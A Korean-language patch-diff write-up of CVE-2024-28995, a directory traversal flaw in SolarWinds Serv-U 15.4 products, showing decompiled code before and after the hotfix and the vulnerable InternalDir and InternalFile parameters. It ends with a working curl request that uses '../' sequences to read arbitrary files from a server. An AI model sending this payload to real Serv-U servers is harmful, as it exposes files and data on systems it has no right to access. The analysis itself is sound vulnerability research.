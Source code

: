 ```yaml
---
title: "[하루한줄] CVE-2024-28995: SolarWinds 사 재품들의 Directory Traversal 취약점으로 인한 Information Leak"
author: j0ker
tags: [CVE-2024-28995, SolarWinds, Path Traversal, Information Disclosure, j0ker]
categories: [1day1line]
date: 2024-06-15 17:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL

- https://attackerkb.com/topics/2k7UrkHyl3/cve-2024-28995/rapid7-analysis#/

## Target

- Serv-U FTP Server 15.4
- Serv-U Gateway 15.4
- Serv-U MFT Server 15.4

## Explain

취약점이 존재하는 버전인  `15.4.2.126` 과 핫픽스 버전인 `15.4.2.157`의 `Serv-U.dll`을 확인해보면 다음과 같이 코드에 체크하는 로직 하나가 추가된 것을 확인할 수 있습니다.

```jsx
  else
  {
    CSUString::MakeDirSeparator((CSUString *)&v35); // replace '/' characters with '\' character
    if ( (unsigned int)sub_1801A6A18(&v35, L"\\..\\", 0LL) == -1 ) // CString::Find
      CSUString::BuildLocalPath((CSUString *)&v35, qword_18046D5F8);
    else
      ATL::CSimpleStringT<wchar_t,1>::Empty(&v36);
  }
```

먼저 경로를 받으면 `/`를 `\`로 바꾸고 `\\..\\`가 존재하는 지 여부를 확인합니다. 이를 통해 Path Traversal 취약점이 존재했고 `/`를 사용해야 한다는 것을 추측해볼 수 있습니다.

패치된 함수들이 사용되는 곳들을 확인해보면 아래와 같은 코드를 확인할 수 있습니다.

```jsx
      get_request_parameter((__int64)v51, (QAnimationDriver *)v55, (__int64)L"InternalDir");
      get_request_parameter((__int64)v51, (QAnimationDriver *)&v42, (__int64)L"InternalFile");
      v14 = vulnerable_path_traversal_function((CSUString *)&v36, v56, v43, a1);
```

InternalDir과 InternalFile 파라미터를 사용할 때 해당 함수를 사용하는 것을 확인할 수 있습니다. 

지금까지 확인한 내용을 토대로 아래와 같이 페이로드를 구성하면 임의의 파일을 읽어올 수 있습니다.

```jsx
curl -i -k --path-as-is http://192.168.86.68/?InternalDir=/../../../../ProgramData/RhinoSoft/Serv-U/^&InternalFile=Serv-U-StartupLog.txt
```
